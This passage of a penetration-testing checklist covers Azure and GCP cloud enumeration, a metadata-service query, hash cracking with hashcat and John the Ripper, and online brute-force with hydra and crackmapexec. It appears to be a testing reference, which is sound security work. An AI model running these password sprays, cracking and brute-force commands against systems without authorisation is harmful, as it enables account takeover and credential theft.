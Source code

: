 - [ ] **Azure AD**
  - [ ] `az ad user list`
  - [ ] `az ad group list`
  - [ ] Password spray (carefully!)

- [ ] **Automated scanning**
  - [ ] ScoutSuite: `scout azure`
  - [ ] AzureHound: AD enumeration

### GCP Testing
- [ ] **Metadata service**
  - [ ] `curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true" -H "Metadata-Flavor: Google"`

- [ ] **Storage buckets**
  - [ ] `gsutil ls gs://bucket-name`
  - [ ] Public access testing

- [ ] **Automated scanning**
  - [ ] ScoutSuite: `scout gcp`

---

## PASSWORD ATTACKS

### Hash Cracking
- [ ] **Hashcat**
  - [ ] Identify hash type: `hashcat --example-hashes | grep -B 1 -A 2 "hash"`
  - [ ] NTLM: `hashcat -m 1000 hashes.txt rockyou.txt`
  - [ ] NTLMv2: `hashcat -m 5600 hashes.txt rockyou.txt`
  - [ ] Kerberoast: `hashcat -m 13100 hashes.txt rockyou.txt`
  - [ ] AS-REP: `hashcat -m 18200 hashes.txt rockyou.txt`
  - [ ] Rules: `hashcat -m 1000 hashes.txt rockyou.txt -r best64.rule`

- [ ] **John the Ripper**
  - [ ] Auto-detect: `john --wordlist=rockyou.txt hashes.txt`
  - [ ] Specific format: `john --format=NT hashes.txt`

- [ ] **Wordlists**
  - [ ] rockyou.txt
  - [ ] SecLists: `/usr/share/seclists/Passwords/`
  - [ ] CeWL: Generate custom wordlist from target site
  - [ ] CUPP: Create personalized wordlists

### Online Password Attacks
- [ ] SSH: `hydra -L users.txt -P passwords.txt ssh://TARGET`
- [ ] FTP: `hydra -L users.txt -P passwords.txt ftp://TARGET`
- [ ] HTTP: `hydra -l admin -P passwords.txt http-post-form "/login:user=^USER^&pass=^PASS^:F=failed"`
- [ ] RDP: `hydra -L users.txt -P passwords.txt rdp://TARGET`
- [ ] SMB: `crackmapexec smb TARGET -u users.txt -p passwords.txt`
- [ ] WinRM: `crackmapexec winrm TARGET -u users.txt -p passwords.txt`

---